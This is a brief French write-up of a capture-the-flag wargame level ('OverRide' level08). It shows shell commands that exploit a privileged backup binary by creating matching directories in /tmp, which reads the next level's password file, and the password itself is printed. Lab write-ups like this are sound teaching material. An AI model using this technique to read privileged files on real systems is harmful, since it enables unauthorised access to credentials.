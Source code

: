 dans cet exercice on remarque sur dogbolt que level8 ouvre un fichier et ecrit son contenu dans le meme path dans un directory appele backups
on regarde la permission du fichier on remarque qu'il a les droit du level 9 on va donc essayer de l'ouvrir :

```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
on va donc essayer d'effectuer la commande dans tmp avec les directory cree
```

level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ ls
level08@OverRide:/tmp$ ~/level08 ../home/users/level09/.pass
ERROR: Failed to open ./backups/.log
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ ./level08 /home/users/level09/.pass
-bash: ./level08: No such file or directory
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir backups/home
level08@OverRide:/tmp$ mkdir backups/home/users
level08@OverRide:/tmp$ mkdir backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log  
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

```
